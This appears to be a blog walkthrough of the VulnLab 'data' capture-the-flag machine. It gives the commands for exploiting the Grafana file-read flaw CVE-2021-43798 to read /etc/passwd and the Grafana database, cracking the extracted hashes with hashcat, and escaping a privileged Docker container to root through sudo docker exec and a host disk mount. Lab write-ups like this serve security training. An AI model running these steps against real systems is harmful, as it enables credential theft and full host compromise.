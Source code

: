 ```yaml
---
layout: post
title:  "VulnLab | data"
description: "walkthrough of data machine, an easy rated box from VulnLab"
date: "2024-11-15"
pin: true
image:
  path: ./assets/img/ctf/vulnlab/data/data1.png
  alt: "data.vl"
category: "VulnLab"
tags: ["Linux", "CVE-2021-43798", "grafana database", "docker container"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[data](https://www.vulnlab.com/machines) is an easy rated linux box from vulnlab.

------------------------------------------------------------------------------------------


## Enumeration

### All Open Ports
```bash
rustscan -a 10.10.95.219
```
![rustscan](./assets/img/ctf/vulnlab/data/data2.png)

### Services Scanning
```bash
nmap -p22,3000 -sC -sV -v -oN data.full 10.10.95.219
```
```text
# Nmap 7.94SVN scan initiated Mon Nov 11 18:35:54 2024 as: nmap -p22,3000 -sC -sV -oN data.full 10.10.95.219
Nmap scan report for 10.10.95.219
Host is up (0.046s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:a9:1e:f7:a9:40:ee:1d:43:42:9c:61:26:4d:db:a2 (RSA)
|   256 99:94:2a:bb:8b:8c:05:99:c1:04:fd:6a:c9:6e:c2:f9 (ECDSA)
|_  256 b5:bf:ea:dd:4e:04:a7:1d:54:a3:6d:55:92:b3:96:63 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Mon, 11 Nov 2024 17:36:04 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Mon, 11 Nov 2024 17:36:10 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=11/11%Time=67324083%P=x86_64-pc-linux-gnu%
SF:r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\
SF:x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20B
SF:ad\x20Request")%r(GetRequest,174,"HTTP/1\.0\x20302\x20Found\r\nCache-Co
SF:ntrol:\x20no-cache\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nE
SF:xpires:\x20-1\r\nLocation:\x20/login\r\nPragma:\x20no-cache\r\nSet-Cook
SF:ie:\x20redirect_to=%2F;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nX-Co
SF:ntent-Type-Options:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nX-Xss-Pro
SF:tection:\x201;\x20mode=block\r\nDate:\x20Mon,\x2011\x20Nov\x202024\x201
SF:7:36:04\x20GMT\r\nContent-Length:\x2029\r\n\r\n<a\x20href=\"/login\">Fo
SF:und</a>\.\n\n")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n
SF:400\x20Bad\x20Request")%r(HTTPOptions,12E,"HTTP/1\.0\x20302\x20Found\r\
SF:nCache-Control:\x20no-cache\r\nExpires:\x20-1\r\nLocation:\x20/login\r\
SF:nPragma:\x20no-cache\r\nSet-Cookie:\x20redirect_to=%2F;\x20Path=/;\x20H
SF:ttpOnly;\x20SameSite=Lax\r\nX-Content-Type-Options:\x20nosniff\r\nX-Fra
SF:me-Options:\x20deny\r\nX-Xss-Protection:\x201;\x20mode=block\r\nDate:\x
SF:20Mon,\x2011\x20Nov\x202024\x2017:36:10\x20GMT\r\nContent-Length:\x200\
SF:r\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\
SF:n400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection
SF::\x20close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20cha
SF:rset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLS
SF:SessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n
SF:400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Hostname
```bash
echo '10.10.95.219  data.vl'  >> /etc/hosts
```

## Foothold

### Port 3000
![grafana](./assets/img/ctf/vulnlab/data/data3.png)

```text
grafana v8.0.0 => CVE-2021-43798 => Unauthenticated file Read
```
```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /etc/passwd -o test.txt
```
![/etc/passwd](./assets/img/ctf/vulnlab/data/data4.png)

```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /var/lib/grafana/grafana.db -o grafana.db
```
![grafana.db](./assets/img/ctf/vulnlab/data/data5.png)

```sql
select email,password,salt from user;
```
![grafana.db](./assets/img/ctf/vulnlab/data/data6.png)

```bash
python3 grafana2hashcat.py -o hashcat.txt hashes.txt
```
![grafana2hashcat](./assets/img/ctf/vulnlab/data/data7.png)

```sh
hashcat -m 10900 hashcat.txt --wordlist /usr/share/wordlists/rockyou.txt
```
![grafana2hashcat](./assets/img/ctf/vulnlab/data/data8.png)

### Port 22
```bash
ssh boris@data.vl
```
![boris ssh](./assets/img/ctf/vulnlab/data/data9.png)


## Privilege Escalation
```sh
sudo -l
```
![docker exec](./assets/img/ctf/vulnlab/data/data10.png)

```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /etc/hosts -o test.txt
```
![container hostname](./assets/img/ctf/vulnlab/data/data11.png)

```bash
sudo /snap/bin/docker exec --user root --privileged -it e6ff5b1cbc85 sh
```
![container hostname](./assets/img/ctf/vulnlab/data/data12.png)

```bash
cat /proc/1/status | grep -i "seccomp"
df -h
```
![container hostname](./assets/img/ctf/vulnlab/data/data13.png)
```bash
mkdir -p /mnt/juggernaut 
mount /dev/xvda1 /mnt/juggernaut
ls -l /mnt/juggernaut
```
![container hostname](./assets/img/ctf/vulnlab/data/data14.png)

```bash
ls -l /mnt/juggernaut/root
```
![container hostname](./assets/img/ctf/vulnlab/data/data15.png)


## Kill Chain Summary
1. Exploit CVE-2021-43798 to get File Read Capabilities on the box.
2. Read grafana database.
3. Using grafana2hashcat and hashcat crack grafana database entries.
4. User boris is allowed to run `/snap/bin/docker exec *` as root without a password.
5. Using the docker exec command abuse the grafana container to become root.


## References
1. FootHold<br>
[exploit](https://gist.github.com/bryanmcnulty/0f013fb75e94140bae70de2b0e986e45)<br>
[grafana2hashcat](https://github.com/iamaldi/grafana2hashcat)<br>
[grafana_exploits](https://github.com/persees/grafana_exploits)<br>

2. Priv Escalation<br>
[docker exec](https://docs.docker.com/reference/cli/docker/container/exec/)<br>
[privileged container breakout](https://juggernaut-sec.com/docker-breakout-lpe/)<br>